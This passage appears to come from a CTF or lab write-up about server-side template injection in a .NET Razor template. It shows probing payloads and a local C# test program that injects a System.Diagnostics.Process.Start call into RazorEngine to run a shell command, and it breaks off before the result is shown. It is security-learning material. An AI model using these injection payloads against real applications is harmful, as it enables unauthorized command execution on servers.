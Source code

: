 Note: Spaces needed to be encoded as `+`.
Using %20 resulted in an error.

- `1337)@using+System@{}@(1337`: it returned `13371337`

After using `@using` which is a reserved keyword, and not receiving a 500 error, it seems like this payload format is usable.

Among the Razor SSTI payloads [^4], it seems we can execute shell commands using `@System.Diagnostics.Process.Start`.
However, when sending this payload, it returned 500 error.
Since the details of the error are unclear, I will try executing a similar payload in a local environment.

### Test in local

setup:

```bash
# ref: https://khalidabuhakmeh.com/generate-outputs-with-razor-engine-in-dotnet-core

dotnet --version
# output => 6.0.400

# Setup dotnet TestApp in Kali
dotnet new console -o TestApp --framework net6.0 --use-program-main && cd TestApp
dotnet run  # sanity check
# output => Hello, World!

# Install RazorEngine: https://www.nuget.org/packages/RazorEngine.NetCore
dotnet add package RazorEngine.NetCore
```

```csharp
// Program.cs
namespace TestApp;

using RazorEngine;
using RazorEngine.Templating;

class Program
{
    static void Main(string[] args)
    {
        var calculation = "1)@System.Diagnostics.Process.Start(\"id\")@(1";

        calculation = $"@({calculation})";
        var tpl = $"{calculation}";

        var result = Engine.Razor.RunCompile(tpl, "templatekey", null, new { result = calculation });
        Console.WriteLine(result);
    }
}
```


[^1]: [RazorEngine](https://antaris.github.io/RazorEngine/)
[^2]: [Razor syntax reference for ASP.NET Core \| Microsoft Learn](https://learn.microsoft.com/en-us/aspnet/core/mvc/views/razor?view=aspnetcore-8.0)
[^3]: [Razor Cheat Sheet / Quick Reference \[C#/VB.NET Syntax\]](https://razorcheatsheet.com)/
[^4]: [SSTI (Server Side Template Injection) - HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#razor-.net)